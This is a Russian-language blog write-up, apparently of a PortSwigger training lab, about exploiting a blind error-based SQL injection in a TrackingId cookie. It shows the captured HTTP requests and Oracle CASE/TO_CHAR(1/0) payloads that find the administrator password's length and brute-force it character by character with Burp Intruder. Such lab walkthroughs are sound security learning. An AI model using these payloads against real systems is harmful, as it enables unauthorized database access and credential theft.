 ```yaml
---
title: "Blind SQL injection"
date: 2025-06-14T13:37:00-04:00
categories:
  - blog
tags:
  - writeup
  - web
---
```


## Scope

[ссылка на лабу](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-conditional-errors)

```
https://0ae90054044f120581a76bcc00c300ed.web-security-academy.net/
```

В данной лабе есть уязвимый к [[Blind based SQL injections(SQLi)| Blind based SQL injection]] параметр в `Cookie`.

В БД есть таблицы с именам `users` и колонками `username` и `password`.

Нужно получить информацию из БД, чтобы зайти в аккаунт `administrator`.
## Notes

Во-первых, из условия известно, что уязвимость находится в `Cookie`, значит есть смысл сразу смотреть `HTTP` запросы.
Во-вторых, известно, что это `Blind Injection`, поэтому будет весело...

И так, возьму `GET`-запрос:

```HTTP
GET /filter?category=Gifts HTTP/2
Host: 0ae90054044f120581a76bcc00c300ed.web-security-academy.net
Cookie: TrackingId=qj7wR5JE68DIePPM; session=sdjSIBQgVY0TIDfdZDJ4oAKTKfz0ZAzb
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0af700f20342cbdda9c9b2a200cb0036.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```

Скорее всего уязвимым является `TrackingId`. Попробую посмотреть, как изменится ответ, при не верном значении `TrackingId=qj7wR5JE68DIePPM:

```HTTP
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 5267
```

Запрос отработал корректно, попробую добавить кавычку `TrackingId=qj7wR5JE68DIePPM'`:

```HTTP
HTTP/2 500 Internal Server Error
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2324
```

Значит обрамление для запроса - это одинарная кавычка `'`. Протестирую это:

```
qj7wR5JE68DIePPM' and 1=0-- -Ok
qj7wR5JE68DIePPM' and 1=1-- -OK
```

Оба запроса отработали корректно. Это значит, что обрамление подобрано корректно, но проверка условий не работает. В таком случае можно попробовать [[Error based SubQuery injections(SQLi)|Error based SQL injection]]. Ее идея в том, чтобы вызвать ошибку в запросе, благодаря чему у нас на странице может отобразиться сообщение о ней. Объединив это с оператором `CASE` можно сделать следующий запрос:

```
qj7wR5JE68DIePPM' and (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '1' END FROM dual) = '1'-- -Ok
qj7wR5JE68DIePPM' and (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '1' END FROM dual) = '1'-- -Error
```

Запрос работает. Теперь в качестве условия подставлю нужное условие. Попробую узнать длину пароля:

```
qj7wR5JE68DIePPM' and (SELECT CASE WHEN LENGTH(password) < 40 THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -Error
qj7wR5JE68DIePPM' and (SELECT CASE WHEN LENGTH(password) < 20 THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -OK
qj7wR5JE68DIePPM' and (SELECT CASE WHEN LENGTH(password) > 20 THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -Ok
qj7wR5JE68DIePPM' and (SELECT CASE WHEN LENGTH(password) = 20 THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -Error
```

Я получил ошибку на условии `LENGTH(password) = 20`, значит длина пароля 20 символов. Теперь использую `SUBSTR` для подбора каждого символа со следующим пейлоадом:

```
qj7wR5JE68DIePPM' and (SELECT CASE WHEN SUBSTRING(password, 1, 1) = 'a' THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -
```

Для упрощения подбора я используют `Burp Suite Intruder` с атакой `Brute Force`.

```
qj7wR5JE68DIePPM' and (SELECT CASE WHEN SUBSTR(password, 1, 1) = 'a' THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -
```

Правильная буква будет в том случае, когда на запрос получается ошибка с кодом `500`, поэтому я отфильтровал другие запросы:

![[Pasted image 20250126154704.png]]

После 20 запросов я получил пароль: `h1dqh09pg0e86htryfv9`. Проверю его:

![[Pasted image 20250126155414.png]]

Вообще изи, решил не глядя)
